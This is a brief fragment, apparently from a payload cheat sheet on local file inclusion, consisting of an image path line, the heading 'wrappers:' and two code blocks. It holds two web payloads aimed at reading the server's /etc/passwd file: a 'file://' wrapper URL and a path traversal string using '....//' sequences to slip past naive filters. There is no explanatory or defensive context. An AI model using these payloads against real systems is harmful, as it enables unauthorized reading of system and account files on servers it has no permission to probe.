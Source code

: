 
**wrappers:**

```
file:///etc/passwd
```

```
....//....//....//....//....//....//....//etc/passwd
```